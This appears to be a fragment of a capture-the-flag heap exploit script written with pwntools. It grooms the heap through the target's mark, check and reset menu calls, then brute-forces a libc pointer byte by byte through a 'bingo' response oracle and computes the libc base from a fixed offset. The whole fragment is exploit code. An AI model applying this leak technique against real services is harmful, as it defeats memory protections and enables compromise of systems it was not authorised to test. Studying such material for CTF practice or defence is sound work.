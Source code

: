 ```python


p.sendlineafter(": ", "AAAA")


for i in range(5):
    mark(i, 4)
    

check(1, 0x500, "BBBB")



for i in range(5):
    mark(i, 3)
    
check(1, 0x500, "BBBB")


reset(4, 0)

reset(3, 0)

s = "\x60"

for i in range(5):
    for j in range(1, 0x100):
        change(s+chr(j)+"\x00")

        mark(2, 0)
        mark(2, 1)

        mark(2, 2)
        mark(2, 4)


        check_specific(2, 1)



        if "bingo" in p.recvline():
            s += chr(j)
            print("-"*50, s)
            break


libc.address = u64(s.ljust(8, "\x00")) - 0x1ebc60

print("libc", hex(libc.address))




change("AAAAAAAA")


for i in range(5):
    mark(i, 2)
    

check(1, 0x500, "BBBB")


```